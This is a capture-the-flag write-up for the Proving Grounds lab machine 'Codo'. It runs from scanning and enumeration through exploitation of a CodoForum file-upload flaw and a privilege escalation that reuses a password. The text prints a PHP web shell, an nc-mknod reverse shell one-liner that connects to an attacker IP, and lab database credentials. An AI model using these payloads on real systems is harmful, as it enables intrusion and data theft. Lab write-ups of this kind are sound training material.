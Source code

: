 ```yaml
---
layout: default
title: Codo
parent: Proving Grounds Practice - Linux
nav_order: 9
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/codo]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.246.23
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-28 08:45 EST
Nmap scan report for 192.168.246.23
Host is up (0.058s latency).
Not shown: 65533 filtered tcp ports (no-response)
Bug in http-generator: no string output.
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: All topics | CODOLOGIC
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.88 seconds

```

# Enumeration

---

## 80 | HTTP

![index](../../../assets/images/ctfs/proving_grounds/codo/index.png)

Gobuster reveals _/admin_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE]
└─$ gobuster dir -u http://192.168.246.23 -w /usr/share/wordlists/custom/large_final.txt -x aspx,php,txt
,conf -t 80 -k                                                                                          ===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
                                                                 ===============================================================
2023/11/28 08:52:57 Starting gobuster in directory enumeration mode                                     ===============================================================
/admin                (Status: 301) [Size: 316] [--> http://192.168.246.23/admin/]
```

There is a login page that allows authentication with default creds _admin:admin_ for the CodoForum site.

![logon](../../../assets/images/ctfs/proving_grounds/codo/logon.png)

Checking searchploit there is a a RCE for the current version V.5.1

The exploit states a malicious php file can be uploaded to _global settings -> change forum logo -> upload_

# Exploitation

---

We will craft a PHP reverse shell and upload to the vulnerable path.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/codo]
└─$ cat cmd.php
GIF8;
<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>

```

![upload](../../../assets/images/ctfs/proving_grounds/codo/upload.png)

Now we can trigger at the path *http://192.168.246.23/sites/default/assets/img/attachments/cmd.php?cmd=id*

![id](../../../assets/images/ctfs/proving_grounds/codo/id.png)

Generate a reverse shell onliner and URLencode

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/codo]
└─$ revshellgen -i 192.168.45.217 -p 4444 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 4444 1>/tmp/l

# URL encoded
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%204444%201%3E%2Ftmp%2Fl
```

Now we execute in the PHP web shell and catch a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/codo]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.246.23] 54160
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Check for Config.php

We find MySQL creds in _/var/www/html/sites/default/config.php_

```bash
www-data@codo:/var/www/html/sites/default$ cat config.php
cat config.php
<?php

/*
 * @CODOLICENSE
 */

defined('IN_CODOF') or die();

$CF_installed=true;

function get_codo_db_conf() {


    $config = array (
  'driver' => 'mysql',
  'host' => 'localhost',
  'database' => 'codoforumdb',
  'username' => 'codo',
  'password' => 'FatPanda123',
  'prefix' => '',
  'charset' => 'utf8',
  'collation' => 'utf8_unicode_ci',
);

    return $config;
}

$DB = get_codo_db_conf();

$CONF = array (

  'driver' => 'Custom',
  'UID'    => '631042af544ef',
  'SECRET' => '631042af544f0',
  'PREFIX' => ''
);

```

Logon to the local MySQL service

```bash
www-data@codo:/var/www/html/sites/default$ mysql -ucodo -p
mysql -ucodo -p
Enter password: FatPanda123

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 43
Server version: 10.3.38-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| codoforumdb        |
| information_schema |
+--------------------+
2 rows in set (0.000 sec)

```

We have some credentials with a clear text password apparently.

```bash
MariaDB [codoforumdb]> select * from codo_users;
select * from codo_users;
+----+-----------+-----------+--------------------------------------------------------------+-------+---------------------+------------+-------------+-----------+-------------+-------------------+-----------+----------+---------------+----------+------------+-----------------------------+
| id | username  | name      | pass                                                         | token | mail                | created    | last_access | read_time | user_status | avatar            | signature | no_posts | profile_views | oauth_id | reputation | last_notification_view_time |
+----+-----------+-----------+--------------------------------------------------------------+-------+---------------------+------------+-------------+-----------+-------------+-------------------+-----------+----------+---------------+----------+------------+-----------------------------+
|  1 | admin     | admin     | $2a$08$NxmF1vhrsnMypsJ1fJkR5OyxtBLWDChyHS4sAT.6ue6SyR2rbmFvS | NULL  | admin@codo.pg       | 1662010038 |  1701193057 |         0 |           1 | 6488ee7e82484.png |           |        1 |             2 | 0        |          0 |                           0 |
|  2 | anonymous | Anonymous | youJustCantCrackThis                                         |       | anonymous@localhost | 1662010038 |  1662010038 |         0 |           0 |                   |           |        0 |             0 | 0        |          0 |                           0 |
+----+-----------+-----------+--------------------------------------------------------------+-------+---------------------+------------+-------------+-----------+-------------+-------------------+-----------+----------+---------------+----------+------------+-----------------------------+

```

## Use Discover Creds to SU to Root

The discovered password in _config.php_ allows us to swich user to _root_

```bash
www-data@codo:/var/www/html/sites/default/assets/img/attachments$ su root
su root
Password: FatPanda123

root@codo:/var/www/html/sites/default/assets/img/attachments# id
id
uid=0(root) gid=0(root) groups=0(root)

```
